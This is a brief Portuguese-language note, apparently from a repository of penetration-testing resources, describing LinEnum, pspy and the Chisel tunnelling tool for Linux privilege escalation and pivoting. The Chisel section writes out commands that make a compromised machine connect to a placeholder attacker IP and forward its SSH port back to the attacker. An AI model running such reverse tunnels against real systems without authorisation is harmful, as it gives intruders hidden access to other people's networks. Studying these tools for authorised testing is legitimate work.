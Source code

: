## [LinEum](https://github.com/rebootuser/LinEnum)

O LinEnum é um script que automatiza a coleta de informações de sistemas Linux para identificar possíveis vetores de escalação de privilégios. Ele verifica permissões, arquivos sensíveis, binários SUID, crontabs e muito mais, economizando tempo em auditorias manuais.

## [PSPY](https://github.com/DominicBreuker/pspy)

O pspy é uma ferramenta leve que monitora processos em execução no sistema sem precisar de permissões elevadas. Ele é útil para identificar scripts, tarefas cron ou serviços sendo executados que podem ser explorados.

## [Chisel](https://github.com/jpillora/chisel)

O Chisel é uma ferramenta de tunelamento reverso e redirecionamento de portas. Ele é útil para estabelecer conexões entre máquinas comprometidas e o atacante, especialmente em ambientes onde o acesso à rede é restrito.

Exemplo de uso:

*No atacante (modo servidor):*

```bash
chisel server -p 8000 --reverse
```

*Na máquina comprometida (modo cliente):*

```bash
chisel client ip-do-atacante:8000 R:8000:localhost:22
```

Esse comando redireciona a porta 22 (normalmente a SSH) da máquina comprometida para o atacante!
